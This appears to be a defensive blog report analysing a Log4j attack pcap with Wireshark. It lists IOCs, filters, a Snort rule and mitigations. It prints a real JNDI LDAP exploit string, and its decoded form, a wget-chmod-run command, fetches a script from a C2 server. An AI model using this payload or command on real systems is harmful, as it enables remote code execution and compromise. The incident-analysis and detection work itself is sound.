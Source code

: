 ```yaml
---
title: " Log4j analysis with wireshark"
category: "Packet Analysis"
pubDate: "2024-03-20"
description: "Report of Log4j packet analysis"
---
```



### Log4j analysis with wireshark

Recently i came across pcap file of log4j attack and with the help of wireshark.The investigation revealed malicious activity involving the use of the `${jndi:ldap://...}` string within UserAgent headers, indicating an attempt to exploit the vulnerability for remote code execution. Key Indicators of Compromise (IOCs) were identified, and the connection to a Command and Control (C2) server was traced.

```
pcap file: [Link](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqa04xTWFiUXBjdm1hT095S3ZYdFhOZTVldFZoZ3xBQ3Jtc0tsM2xYTmlLbXBiN0VKa3RwVi0yb2RLLVN0TU1qci1QVFFHZlZqd2J3dEFJVHB0ZlZ0WlJwakZUUzh3bFhKU1Q2TS1vdWVBUU9LTUR6QnVHTnFpempUT2dPX3NSTTR3RHZXclIwUWxtSUItWktRUkFmRQ&q=https%3A%2F%2Fbit.ly%2FLog4jAttack&v=O7VWtFtDvRg)
```

### POC

### Wireshark analysis

Statistics => endpoints => map out => ip contains “jndi”  
identified the user agent as jndi

![](https://cdn-images-1.medium.com/max/1600/1*nYEy7MLCAQCCFPaN41lxvw.png)

```
On inspecting the the **UserAgent** with cyberchef `${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==}`
```

we get => wget [http://62.210.130.250/lh.sh;chmod](http://62.210.130.250/lh.sh;chmod) +x [lh.sh](http://lh.sh/);./lh.sh

From there we got an IP => 62.210.130.250

![](https://cdn-images-1.medium.com/max/1600/1*i4iNAVDn4FfsYBqxp-_unA.png)

Upon further investigation we found out that this IP is malicious, 
in virustotlal community section they have mentiond that it is a log4j C2 severs ip

### Detailed Report

#### Indicators of Compromise (IOCs)

**1.IP Addresses:**

`45.137.21.9` (used in LDAP lookup)

`62.210.130.250` (C2 server hosting the malicious script)

**2.Malicious Payload:**
```
Base64 encoded command: `${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==}`
```
```
Decoded command: `wget http://62.210.130.250/lh.sh;chmod +x lh.sh;./lh.sh`
```

**3.Malicious Domain:**

Associated with IP `62.210.130.250`

#### 4.Threat Hunting Techniques

**Packet Inspection:**

I filtered network traffic for packets containing the string “jndi”:

`ip contains "jndi"`

**5.TCP Flags Analysis:**

- I focused on packets initiating connections (SYN packets):  
    `tcp.flags == 0x002`

**6.Source IP Validation:**

I verified if the source IP matches the server under investigation:

`ip.src == [Your Server IP]`

#### Detection Rules

1. **Snort Rule:**

```
alert tcp any any -> any 389 (msg:"LDAP Log4j RCE Attempt"; content:"${jndi:ldap://"; sid:100001;)
```
  

#### Mitigation Steps

**Patch Management:**

1. Ensure all systems are updated to the latest version of Log4j to mitigate the vulnerability (CVE-2021–44228) .

**Network Segmentation:**

1.Isolate critical systems from direct internet access to reduce exposure to external threats.

**Firewall Rules:**

Block known malicious IPs (`45.137.21.9` and `62.210.130.250`) and domains associated with the exploit.

**Intrusion Detection and Prevention Systems (IDPS):**

Implement and update IDPS signatures to detect and block exploitation attempts.

**Continuous Monitoring:**

Regularly monitor network traffic for unusual patterns and IOCs related to Log4j exploits.

#### MITRE ATT&CK Framework Alignment

- **Technique T1071.001:** Application Layer Protocol — Web Protocols .
- **Technique T1219:** Remote Access Software .
- **Technique T1203:** Exploitation for Client Execution .
- **Technique T1070.004:** Indicator Removal on Host — File Deletion .

The investigation confirmed the presence of malicious activity attempting to exploit the Log4j vulnerability. 
Immediate action is required to mitigate the identified threats and enhance the organization’s security posture. 
Implementing the recommended detection rules, mitigation steps, and continuous monitoring will help in preventing future exploitation attempts.

For more information and detailed guidance on mitigating Log4j vulnerabilities, refer to the following sources:

1. [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)
2. CISA’s Apache Log4j Vulnerability Guidance
3. MITRE ATT&CK Framework — Application Layer Protocol
4. MITRE ATT&CK Framework — Remote Access Software
5. MITRE ATT&CK Framework — Exploitation for Client Execution
6. MITRE ATT&CK Framework — Indicator Removal on Host


